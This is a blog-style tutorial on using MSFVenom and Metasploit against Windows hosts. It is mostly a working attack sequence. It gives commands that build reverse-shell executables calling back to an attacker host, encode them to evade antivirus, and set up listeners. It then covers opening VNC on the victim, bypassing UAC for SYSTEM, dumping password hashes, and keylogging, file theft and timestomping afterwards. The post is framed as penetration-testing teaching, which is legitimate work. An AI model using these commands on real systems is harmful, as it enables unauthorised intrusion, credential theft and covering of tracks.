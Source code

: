 ```yaml
---
title: "MSFVenom"
date: "2020-04-06"
slug: "msf-venom"
category: "Security Tools"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

#### Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and port of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.




#### Escalating Privileges
Escalating privilege is an essential part of any penetration test. This allows you to compromise a normal user account and then increase your level of privilege, enabling you to perform further actions on your victim's network/device.

To generate the exploit generate our payload we'll use the following command:
```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" -f exe LHOST=<attackerIP> -f Desktop/escalation.exe
```

This is similar to the command we used to create the previous payload with a few key differences.

* *-e* - Sets the encoding on the output file. This can help to avoid detection by antivirus, however, a lot of scanners will still detect this.
* *-b* - You can provide a list of characters to avoid.
* *-f* - Where you're outputting the file.

Start the listener on our attacker machine.

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit -j -z
```

Again you'll have to figure out how to get this onto the target machine. Once the target has run the exe you'll have a session established with the target. Make the session interactive and grab the current user's username.

```bash
session -i 1
getuid
```

Depending on the user's privilege level you won't be able to perform administrator type actions. We now want to escalate our privileges so that we 'own' the system.

```bash
background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
```

* *background* - Sends the current session to the background so you can perform the next tasks.
* *use exploit/windows/local/bypassuac_fodhelper* - Sets the exploit you want to use.
* *set SESSION 1* - Sets the SESSION variable for the exploit. **N.B.** Different exploits use different variables, to see the available options and a description use the `show options` command.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
set TARGET 0
exploit
```

You should now have a new meterpreter session open.

```bash
getsystem -t 1
```
This should have escalated your privileges to the 'SYSTEM' account. If you use `getuid` you should see the username is now SYSTEM.

We can now dump the password hashes of users on the system as well as password hints.

```bash
run post/windows/gather/smart_hashdump
```

If this command works then you have successfully escalated you privilege. Well done!

####Post Exploitation Activities
So you've compromised a device and escalated your privileges, now what?

Well you can do any number of things. I'll show you some of the things you might want to do. 

* *ls* - Lists the current directory contents.
* *cd* - Change directory.
* *pwd* - Prints the current directory.
* *timestomp secret.txt -v* Alters the Modified, Access, Created, Entry Modified (MACE) attributes.
* *download myFile.doc* - Downloads the specified document to your machine.
* *search -f "myFile.doc"* - Searches for files on the system. You can search in specific folders or the whole system.
* *keyscan_start* - Initiates key capturing on the victim.
* *keyscan_dump* - Dumps the keystrokes to the terminal
* *idletime* - Displays the time, in seconds, the system has been idle.
* *shutdown* - Shutdowns the victim's machine.